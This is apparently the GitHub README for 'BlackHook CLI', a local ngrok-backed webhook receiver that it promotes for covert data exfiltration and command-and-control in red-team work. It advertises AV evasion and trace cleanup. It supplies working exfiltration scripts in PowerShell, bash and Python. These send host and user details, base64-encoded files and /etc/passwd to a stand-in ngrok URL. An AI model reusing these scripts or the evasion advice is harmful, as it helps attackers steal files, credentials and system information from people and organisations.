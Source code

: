 # BlackHook CLI

A covert command-line tool for establishing secure data exfiltration channels and webhook endpoints during penetration testing and red team operations.

![Security](https://img.shields.io/badge/security-research-red.svg)
![Python](https://img.shields.io/badge/python-3.7+-blue.svg)
![Stealth](https://img.shields.io/badge/stealth-high-darkgreen.svg)

## 🎯 Overview

BlackHook-CLI is similar to webhook.site but in the form of cli and can be run locally to carry out a variety of data exfiltration attacks

# Images Side by Side

| UI Screenshot | Requests View |
|:-------------:|:-------------:|
| <img src="images/ui.svg" alt="UI Screenshot" width="600"/> | <img src="images/requests.svg" alt="Requests View" width="600"/> |


## 🔥 Key Advantages

- 🥷 **AV Evasion**: Bypasses common antivirus detection through legitimate HTTP traffic patterns
- 🌐 **Dynamic Endpoints**: Creates ephemeral ngrok tunnels that don't appear in security feeds
- 🔒 **No External Dependencies**: Self-hosted solution avoiding third-party webhook services
- 📊 **Real-time Monitoring**: Live TUI for immediate data visibility during operations
- 🧹 **Clean Footprint**: Minimal system traces and easy cleanup
- 🎭 **Traffic Mimicry**: Requests appear as legitimate web traffic
- 💾 **Flexible Exfiltration**: Supports multiple data formats and encoding schemes

## 🚀 Tactical Use Cases

- **Data Exfiltration**: Extract sensitive files and credentials via HTTP POST
- **Command & Control**: Establish covert communication channels
- **Payload Delivery Confirmation**: Verify successful payload execution
- **Persistence Validation**: Test beacon callbacks and heartbeat mechanisms


## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/blackhook-cli.git
cd blackhook-cli

# Install dependencies
pip install -r requirements.txt

# Make executable
chmod +x blackhook_cli.py
```

## ⚡ Quick Deployment

### 1. Establish Covert Channel
```bash
python blackhook_cli.py start --port 8080
```
- Automatically generates ephemeral ngrok URL
- Launches real-time monitoring interface
- Ready for data reception immediately

### 2. Configure Target Payload
Use the generated URL in your payload scripts:
```bash
# Example exfiltration endpoint
https://abc123.ngrok.io/exfil
```

### 3. Monitor Incoming Data
Watch data arrive in real-time through the interactive TUI with full request details, headers, and payload content.

## 🎯 Operational Examples

### Data Exfiltration Scripts

**PowerShell (Windows)**
```powershell
# Exfiltrate system information
$data = @{
    hostname = $env:COMPUTERNAME
    user = $env:USERNAME
    domain = $env:USERDOMAIN
    processes = Get-Process | Select-Object Name | ConvertTo-Json
}
Invoke-RestMethod -Uri "https://your-ngrok-url.ngrok.io/sysinfo" -Method POST -Body ($data | ConvertTo-Json) -ContentType "application/json"
```

**Bash (Linux)**
```bash
#!/bin/bash
# Covert file exfiltration
curl -X POST https://your-ngrok-url.ngrok.io/files \
  -H "Content-Type: application/json" \
  -d "{\"filename\":\"$(basename $1)\",\"content\":\"$(base64 -w 0 $1)\"}"
```

**Python (Cross-platform)**
```python
import requests
import base64
import os

def exfiltrate_file(filepath, endpoint):
    with open(filepath, 'rb') as f:
        content = base64.b64encode(f.read()).decode()
    
    data = {
        'filename': os.path.basename(filepath),
        'size': os.path.getsize(filepath),
        'content': content
    }
    
    requests.post(f"{endpoint}/upload", json=data)

# Usage
exfiltrate_file("/etc/passwd", "https://your-ngrok-url.ngrok.io")
```

## 🔧 Operational Commands

| Command | Purpose |
|---------|---------|
| `start` | Deploy covert endpoint |
| `status` | Check operational status |
| `requests` | Review captured intelligence |
| `show <id>` | Analyze specific payload |
| `export` | Extract operation data |
| `kill` | Terminate and cleanup |
| `clear` | Purge operation traces |

## 🎮 TUI Operational Controls

| Key | Function | Description |
|-----|----------|-------------|
| `↑↓` | Navigate | Browse captured payloads |
| `Enter` | Inspect | Deep dive into payload details |
| `c` | Clean | Emergency data wipe |
| `e` | Extract | Quick data export |
| `k` | Kill | Terminate operations |
| `q` | Quit | Exit interface |

## 🤝 Contributing

Security researchers and penetration testers are welcome to contribute:

---
#### Inspired from Webhook.site
